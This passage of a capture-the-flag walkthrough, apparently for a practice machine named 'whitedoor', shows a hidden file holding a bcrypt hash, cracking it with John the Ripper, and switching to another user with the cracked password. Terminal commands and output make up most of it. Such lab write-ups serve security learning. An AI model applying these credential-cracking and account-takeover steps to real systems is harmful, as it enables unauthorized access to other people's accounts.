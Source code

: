 ```shell
cat: user.txt: Permission denied
whiteshell@whitedoor:/home/Gonzalo/Desktop$ ls -la
total 16
drwxr-xr-x 2 root    Gonzalo    4096 Nov 17  2023 .
drwxr-x--- 9 Gonzalo whiteshell 4096 Nov 17  2023 ..
-r--r--r-- 1 root    root         61 Nov 16  2023 .my_secret_hash
-rw-r----- 1 root    Gonzalo      20 Nov 16  2023 user.txt
whiteshell@whitedoor:/home/Gonzalo/Desktop$ cat .my_secret_hash 
$2y$10$CqtC7h0oOG5sir4oUFxkGuKzS561UFos6F7hL31Waj/Y48ZlAbQF6
```
- Found another hidden file named `.my_secret_hash ` and that contains somekind of string!
- Looks like a hash to me! 😫

#### >> Decrypt with `john`
```shell
┌──(synix㉿zer0day)-[~]
└─$ cat hash 
$2y$10$CqtC7h0oOG5sir4oUFxkGuKzS561UFos6F7hL31Waj/Y48ZlAbQF6
                                                                                                                                                                       
┌──(synix㉿zer0day)-[~]
└─$ sudo john hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
qwertyuiop       (?)     
1g 0:00:00:12 DONE 2/3 (2024-09-05 01:08) 0.08156g/s 176.1p/s 176.1c/s 176.1C/s bonita..gangsta
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
- And we have Gonzalo's password, Let's try to login with Gonzalo!

```shell
whiteshell@whitedoor:/home/Gonzalo/Desktop$ su Gonzalo
Password: 
Gonzalo@whitedoor:~/Desktop$ id
uid=1002(Gonzalo) gid=1002(Gonzalo) groups=1002(Gonzalo)
Gonzalo@whitedoor:~/Desktop$ whoami
Gonzalo
Gonzalo@whitedoor:~/Desktop$ 
```
- And we got in!! 😈

```shell
Gonzalo@whitedoor:~/Desktop$ ls -la
total 16
drwxr-xr-x 2 root    Gonzalo    4096 Nov 17  2023 .
drwxr-x--- 9 Gonzalo whiteshell 4096 Nov 17  2023 ..
-r--r--r-- 1 root    root         61 Nov 16  2023 .my_secret_hash
-rw-r----- 1 root    Gonzalo      20 Nov 16  2023 user.txt
```
- And we got the user flag!! 👽
<br>
